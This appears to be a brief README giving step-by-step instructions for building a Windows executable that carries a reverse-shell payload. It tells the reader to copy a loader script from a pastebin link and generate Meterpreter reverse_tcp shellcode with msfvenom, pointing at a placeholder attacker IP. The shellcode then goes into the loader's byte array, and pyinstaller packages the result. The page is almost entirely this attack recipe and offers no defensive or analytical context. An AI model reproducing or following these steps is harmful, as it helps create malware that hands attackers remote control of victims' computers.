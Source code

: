 
Create newfile and copy the rawcode for pyinstaller from pastebin.com/rrhcGeHh

Generate new shell code with msfvenom

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attackerIP> -a x86 -f c

replace the section of pyinstaller "shellcode = bytearray(" with the code generated.

Save the file.

use pyinstaller to create the exeuctable.

NOTE: you must be on the OS that you inted to make the executable for.

**Windows**

https://www.python.org/
https://datatofish.com/executable-pyinstaller/







